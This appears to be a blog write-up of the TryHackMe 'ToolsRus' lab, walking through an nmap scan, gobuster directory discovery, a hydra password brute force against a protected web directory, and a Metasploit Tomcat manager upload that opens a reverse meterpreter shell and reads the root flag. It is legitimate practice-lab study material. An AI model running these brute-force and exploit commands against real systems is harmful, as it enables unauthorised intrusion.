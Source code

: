 ```yaml
---
layout: post
title:  "Tryhackme: ToolsRus"
date:   2021-01-15 18:00:56 +0200
categories: tryhackme
---
```


## Nmap Scan ##

As always, we begin with our usual Nmap scan.
```sudo nmap -sSCV -T5 10.10.45.103 -p- -oN=nmapScan -vv```

```
Nmap scan report for 10.10.45.103
Host is up, received echo-reply ttl 63 (0.056s latency).
Scanned at 2021-01-20 15:09:49 EST for 577s
Not shown: 65531 closed ports
Reason: 65531 resets
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 51:45:94:c5:51:42:ff:bd:ab:44:2f:47:4d:22:46:ca (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDiI3uH3w9a+RiEfu7Gp5et4/aZyPR4pfmcXgxCwQe1UC1ZzgQ8EmaK77jXBOhL6NE8NNp27l0/d/Q+aayMjvchnGbk0uykCowUEW5rSly0ARep/5PYrdJ2jKp1SEIBR+C6cgKwOay1+w9p1bB71I55wMKo12nsCwkLnwR8UZh2vwEdxf59FTBE4zW/ppJ7NYzB5JHqzp4rIuYo8ZqRBWfWBtwqub/LNCEeIsWxpNmSo/Y2VQo467GhGuFy5RShmhO4W4gGKIVbRt0Avj3PSwdCzxuHJXVtTJEdMeqMZ9UUzZzVLUm+dsUefYWS8uTtvVjv3lktVG3TbEG0ruvixixf
|   256 28:7a:3e:e6:15:a4:c5:6f:ee:20:bd:46:59:a1:28:f0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGehpOlDDm6qSFzfGtiEYc7h6TCjMcmX/00JCAouQ0k4NCpbY3b48R/LP+AitEkqqbvIBCDVo+1K+LSOcW2NabQ=
|   256 c3:d1:64:bf:04:e9:b9:e7:d9:9d:f5:21:e9:12:af:7e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFDtToBeKyEOftjc0w1SuFxjPBITy4/0N+tmDX80mEJt
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
1234/tcp open  http    syn-ack ttl 63 Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
8009/tcp open  ajp13   syn-ack ttl 63 Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
Device type: general purpose|WAP|phone
Running (JUST GUESSING): Linux 3.X|5.X|4.X (95%), Asus embedded (94%), Google Android 5.X|6.X|7.X (92%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/h:asus:rt-n56u cpe:/o:linux:linux_kernel:3.4 cpe:/o:linux:linux_kernel:5.4 cpe:/o:google:android:5.1 cpe:/o:google:android:6 cpe:/o:google:android:7 cpe:/o:linux:linux_kernel:4
OS fingerprint not ideal because: Timing level 5 (Insane) used
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), ASUS RT-N56U WAP (Linux 3.4) (94%), Linux 3.16 (94%), Linux 5.4 (94%), Linux 3.1 (93%), Linux 3.2 (93%), Android 5.1 (92%), Android 6.0 - 7.1.2 (Linux 3.18 - 4.4.1) (92%), Android 7.1.1 - 7.1.2 (92%), Linux 3.13 (92%)
No exact OS matches for host (test conditions non-ideal).
```

## Bruteforcing Directories ##

Running ```gobuster dir -u http://10.10.45.103 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 16``` will show us some interesting directories, among which is the one we are prompted to find.
```
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.45.103
[+] Threads:        16
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/01/15 15:04:16 Starting gobuster
===============================================================
/guidelines (Status: 301)
/protected (Status: 401)
/server-status (Status: 403)
===============================================================
2021/01/15 15:21:00 Finished
===============================================================

```

## Password Bruteforcing ##

Entering the directory in our browser's URL box we can find a potential username, we can bruteforce.
Checking out the ```protected``` directory we stumble upon a login prompt. Let's try and bruteforce it.
``` hydra -l USER -P /usr/share/wordlists/rockyou.txt.gz 10.10.45.103 -t 16 http-get /protected/```

This way we will get the insecure credential this found user has.

## Exploiting outdated Tomcat ##

As we login using the found credentials, we are prompted to look for another web service. Thus we can try the service indicated to us by our previous nmap scan, the one running on port 1234.

Doing a simple ```searchsploit``` we find out this service is vulnerable and we are also suggested a good exploit.

Entering Metasploit, we try to see if this exploit can help in our case.

```
msf6 > use multi/http/tomcat_mgr_upload
msf6 exploit(multi/http/tomcat_mgr_upload) > set rhost 10.10.45.103
msf6 exploit(multi/http/tomcat_mgr_upload) > set httppassword PASSWORD
msf6 exploit(multi/http/tomcat_mgr_upload) > set httpusername USER
msf6 exploit(multi/http/tomcat_mgr_upload) > set rport 1234
msf6 exploit(multi/http/tomcat_mgr_upload) > set lhost tun0
msf6 exploit(multi/http/tomcat_mgr_upload) > run
```

Success! We popped a meterpreter shell. Let's get our shell!

```
meterpreter > cat /root/flag.txt
```